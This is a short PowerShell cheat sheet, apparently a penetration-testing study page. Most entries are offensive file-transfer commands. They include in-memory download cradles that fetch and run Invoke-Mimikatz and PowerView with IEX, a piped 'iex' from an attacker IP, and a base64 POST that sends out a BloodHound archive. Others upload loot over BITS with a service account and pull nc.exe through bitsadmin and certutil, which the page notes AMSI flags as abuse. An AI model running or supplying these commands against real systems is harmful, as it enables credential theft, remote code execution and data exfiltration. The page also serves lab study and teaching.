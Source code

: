 # powershell_cmds

## Change all file names to lower case in the current directory

```Powershell
Get-ChildItem | Rename-Item -NewName {$_.Name -replace $_.Name, $_.Name.ToLower()}
```

## Downloading file from raw github content via System.Net.WebClient
```Powershell
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

## Downloading file from raw github content via Invoke-WebRequest (slower for downloading files)

```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
## Invoking payload in memory

```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## If IE configuration hasn't been finished, use the -UseBasicParsing option

```Powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

## Disable IE First Run Customization

```Powershell
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

## Other Powershell Download Cradles

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

## Uploading Files using Invoke-WebRequest

```Powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

## Background Intelligent Transfer Service (BITS) for HTTP sites and SMB shares

```Powershell
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## BITS can utilize service credentials and proxy servers

### Download

```Powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```Powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

## Certutil (recognized by AMSI - Antimalware Scan Interface - as abusing)

```Powershell
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

## Get User Agents for Powershell

```Powershell
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | Format-List
```
